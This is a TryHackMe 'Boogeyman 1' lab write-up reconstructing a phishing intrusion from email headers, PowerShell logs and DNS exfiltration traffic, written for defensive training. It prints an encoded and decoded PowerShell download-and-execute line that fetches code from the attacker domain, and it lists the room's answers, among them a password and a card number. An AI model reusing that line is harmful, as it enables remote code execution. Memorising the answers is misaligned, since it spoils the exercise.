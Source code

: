 # TryHackMe | Boogeyman 1 – Write-up 🎯

**Author:** Klay Keith Muhu  
**Date:** Aug 24, 2025  
**Room Link:** [Boogeyman 1](https://tryhackme.com/room/boogeyman1)  

---

## 📝 Overview
The room provided a phishing email, endpoint logs, and network traffic to analyze.  
By studying email headers, parsing JSON logs with jq, and reconstructing events from packet captures, I uncovered how the threat actor gained initial access, enumerated the host, exfiltrated data, and maintained persistence.  

Key learning included inspecting encoded payloads, tracking command execution in logs, and carving exfiltrated content from DNS traffic.  

---

## 📌 Task 1 – Introduction: New threat in town
Uncover the secrets of the emerging threat, the Boogeyman.  

---

## 📚 Prerequisites
Recommended rooms from the SOC L1 Pathway:
- Phishing Analysis Fundamentals  
- Phishing Analysis Tools  
- Windows Event Logs  
- Wireshark: Traffic Analysis  
- Tshark (coming soon!)  

---

## 📂 Artefacts
- `dump.eml` – phishing email  
- `powershell.json` – PowerShell logs (JSON format)  
- `capture.pcapng` – packet capture  

---

## 🔧 Tools
- Thunderbird, LNKParse3, Wireshark, Tshark, jq  
- CLI utilities: `grep`, `sed`, `awk`, `base64`  

---

## 📌 Task 2 – Email Analysis: Look at that headers!
Julianne, a finance employee at Quick Logistics LLC, received a phishing email disguised as an invoice. The attachment was malicious and compromised her workstation.  

**Findings:**
- Attacker email: `agriffin@bpakcaging.xyz`  
- Victim email: `julianne.westcott@hotmail.com`  
- Third-party relay service: `elasticemail`  
- File in encrypted attachment: `Invoice_20230103.lnk`  
- Password of encrypted attachment: `Invoice2023!`  

**Encoded Payload in LNK command line:**
```

aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAawBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

````

**Decoded Payload:**
```powershell
powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
````

---

## 📌 Task 3 – Endpoint Security: Are you sure that’s an invoice?

**Findings from PowerShell logs:**

* Domains used by attacker: `cdn.bpakcaging.xyz, files.bpakcaging.xyz`
* Enumeration tool downloaded: `Seatbelt`
* File accessed via `sq3.exe`:
  `C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`
* Software using that file: Microsoft Sticky Notes
* Exfiltrated file: `protected_data.kdbx`
* File type: KeePass database
* Encoding used during exfiltration: hex
* Tool used for exfiltration: `nslookup`

---

## 📌 Task 4 – Network Traffic Analysis: They got us. Call the bank immediately!

**Findings from packet capture:**

* Server software used by attacker: Python (observed in HTTP response headers)
* HTTP method for C2 commands: `POST`
* Protocol for exfiltration: `DNS`
* Password of exfiltrated file: `%p9³!lL^Mz47E2GaT^y`
* Credit card number stored in exfiltrated file: `4024007128269551`

Exfiltration was confirmed via DNS queries to attacker domains.
Data chunks were extracted using `tshark`, cleaned, and reassembled.
Decoding revealed sensitive contents including credentials and credit card data.

---

## 🧩 Lessons Learned

* Validate and sandbox email attachments before execution.
* Monitor PowerShell execution with proper logging and alerting.
* Detect abnormal DNS traffic patterns (common exfiltration channel).
* Apply least privilege and restrict usage of tools like `nslookup`.

---

## 🔗 References

* [jq Documentation](https://stedolan.github.io/jq/)
* [Wireshark](https://www.wireshark.org/)
* [CyberChef](https://gchq.github.io/CyberChef/)
